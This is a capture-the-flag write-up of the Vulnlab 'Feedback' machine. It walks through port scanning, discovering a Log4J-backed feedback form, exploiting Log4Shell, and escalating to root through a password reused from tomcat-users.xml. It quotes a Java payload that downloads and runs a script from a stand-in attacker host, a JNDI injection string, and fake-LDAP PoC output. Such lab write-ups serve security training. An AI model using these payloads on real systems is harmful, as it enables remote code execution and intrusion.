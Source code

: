 ```yaml
---
title: Vulnlabs Feedback
author: kino
date: 2023-08-10 00:34:00 +0800
categories: [Vulnlab]
tags: [vulnlabs, writeups]
---
```

# Vulnlab: Feedback

`Difficulty:` Easy

## Summary:

- Apache Tomcat
- /feedback Directory where "feedback" is logged using Java
- Log4Shell (CVE-2021-44228)
- Password Reuse

### Initial Scan
Initial Nmap scan shows an Apache Tomcat running over HTTP on port 8080.
```shell
➜  ~ nmap -sC -sV 10.10.120.186
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-09 20:16 EDT
Nmap scan report for 10.10.120.186
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 93:54:07:04:92:d4:1f:fd:54:21:5e:b2:db:ca:7c:ad (RSA)
|   256 f6:ec:e3:d7:97:e6:34:38:62:fe:58:2a:b0:98:21:99 (ECDSA)
|_  256 ca:5a:8b:bc:12:4f:8e:9f:13:30:ff:c1:40:fe:a0:d7 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.56
|_http-title: Apache Tomcat/9.0.56
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Visiting the page reveals it is a default page with nothing inherently suspicious. 

### Directory Fuzzing

A quick Dirb scan reveals the /feedback directory.
```shell
➜  ~ dirb http://10.10.117.96:8080

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Wed Aug  9 21:03:03 2023
URL_BASE: http://10.10.117.96:8080/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.117.96:8080/ ----
+ http://10.10.117.96:8080/docs (CODE:302|SIZE:0)
+ http://10.10.117.96:8080/examples (CODE:302|SIZE:0)
+ http://10.10.117.96:8080/favicon.ico (CODE:200|SIZE:21630)
+ http://10.10.117.96:8080/feedback (CODE:302|SIZE:0)
+ http://10.10.117.96:8080/host-manager (CODE:302|SIZE:0)
+ http://10.10.117.96:8080/manager (CODE:302|SIZE:0)

-----------------
END_TIME: Wed Aug  9 21:15:25 2023
DOWNLOADED: 4612 - FOUND: 6
```

This page allows us to submit feedback. When successful the page tell us that our feedback has been 'logged'. Even without the context clues this can be verified by viewing source.

```html
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF 8">
        ...
    </head>
    <body>
        ...
        <!-- Builb with Java, Struts2 & Log4J -->
    </body>
</html>
```

### Log4Shell
You can either create your own java payload or work your way around the GitHub PoC.

https://vulndev.io/2021/12/11/lab-exploiting-log4shell-cve-2021-44228/
```java
public class RCE {
    static {
        try {
            Runtime r = Runtime.getRuntime();
            Process p = r.exec("wget http://Attacker/x -O /tmp/x");
            p.waitFor();
            r = Runtime.getRuntime();
            p = r.exec("/bin/bash /tmp/x");
            p.waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    public RCE(){
        System.out.println("Is this RCE?");
    }
}
```

https://github.com/kozmer/log4j-shell-poc
```shell
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

Pretty much, we are able to use JNDI (Java Naming and Directory Interface) as a means to interract when an attacker LDAP server. We host our payload and when the feedback request gets parsed it will download our payload and run it (giving us a shell).

### Root
Simple Password reuse to wrap it all up.
```shell 
tomcat@ip-10-10-10-7:~/conf$ ls
ls
catalina.policy      jaspic-providers.xml  server.xml	     web.xml
catalina.properties  jaspic-providers.xsd  tomcat-users.xml
context.xml	     logging.properties    tomcat-users.xsd
tomcat@ip-10-10-10-7:~/conf$ cat tomcat-users.xml
cat tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
  <user username="admin" password="[*****]" roles="manager-gui"/>
  <user username="robot" password="[*****]" roles="manager-script"/>

</tomcat-users>
tomcat@ip-10-10-10-7:~/conf$ su root
su root
Password: [*****]
root@ip-10-10-10-7:/# id
id
uid=0(root) gid=0(root) groups=0(root)
root@ip-10-10-10-7:~# ls
ls
root.txt  snap
  ```


